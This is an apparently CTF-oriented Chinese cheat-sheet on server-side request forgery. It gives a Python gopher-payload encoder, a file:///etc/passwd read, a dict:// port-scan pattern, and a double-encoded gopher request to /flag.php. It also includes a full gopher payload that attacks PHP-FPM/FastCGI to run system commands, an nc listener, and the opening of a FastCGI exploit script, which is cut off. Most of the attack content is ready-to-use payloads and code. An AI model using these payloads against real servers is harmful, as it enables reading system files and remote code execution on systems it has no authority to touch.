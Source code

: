 
#ssrf 

工具`https://github.com/tarunkant/Gopherus` 安装在ubuntu上


编码
```python
from urllib.parse import quote, unquote, urlencode
file= open('1.txt','rb')
payload= file.read()
payload= quote(payload).replace("%0A","%0A%0D")
print("gopher://127.0.0.1:9000/_"+quote(payload))
```

- 文件读取
`file:///etc/passwd`
- gopher来请求http
`gopher://127.0.0.1:80/_POST%252520%25252Fflag.php%252520HTTP%25252F1.1%25250D%25250AHost%25253A%252520127.0.0.1%25253A80%25250D%25250AContent-Type%25253A%252520application%25252Fx-www-form-urlencoded%25250D%25250AContent-Length%25253A%25252036%25250D%25250A%25250D%25250Akey%25253D02127f6ffde0661a73e92b228053bdc1`

http->gopher
urlencode->%0A-(%0D%0A)->urlencode->urlencode

- dict 扫描端口
`dict://127.0.0.1:<port>`

- 打fast-cgi

最后的payload
```bash
gopher://127.0.0.1:9000/_%2501%2501%259AP%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%259AP%2501%25DB%2500%2500%2511%250BGATEWAY_INTERFACEFastCGI/1.0%250E%2504REQUEST_METHODPOST%250F%2517SCRIPT_FILENAME/var/www/html/index.php%250B%2517SCRIPT_NAME/var/www/html/index.php%250C%2500QUERY_STRING%250B%2517REQUEST_URI/var/www/html/index.php%250D%2501DOCUMENT_ROOT/%250F%250ESERVER_SOFTWAREphp/fcgiclient%250B%2509REMOTE_ADDR127.0.0.1%250B%2504REMOTE_PORT9985%250B%2509SERVER_ADDR127.0.0.1%250B%2502SERVER_PORT80%250B%2509SERVER_NAMElocalhost%250F%2508SERVER_PROTOCOLHTTP/1.1%250C%2510CONTENT_TYPEapplication/text%250E%2502CONTENT_LENGTH61%2509%251FPHP_VALUEauto_prepend_file%2520%253D%2520php%253A//input%250F%2516PHP_ADMIN_VALUEallow_url_include%2520%253D%2520On%2501%2504%259AP%2500%2500%2500%2500%2501%2505%259AP%2500%253D%2500%2500%253C%253Fphp%2520system%2528%2527cat%2520/flag_489c5bf04ea0c6f6fcc16a958df58401%2527%2529%253B%253F%253E%2501%2505%259AP%2500%2500%2500%2500
```

`python exp.py -c "<?php phpinfo();?>" -p 4444 127.0.0.1 /var/www/html/index.php`

本地`nc -lnvp 4444 >1.txt`接收payload

##### code
```python
import socket
import random
import argparse
import sys
from io import BytesIO
# Referrer: https://github.com/wuyunfeng/Python-FastCGI-Client
PY2 = True if sys.version_info.major == 2 else False
def bchr(i):
    if PY2:
        return force_bytes(chr(i))
    else:
        return bytes([i])
def bord(c):
    if isinstance(c, int):
        return c
    else:
        return ord(c)
def force_bytes(s):
    if isinstance(s, bytes):
```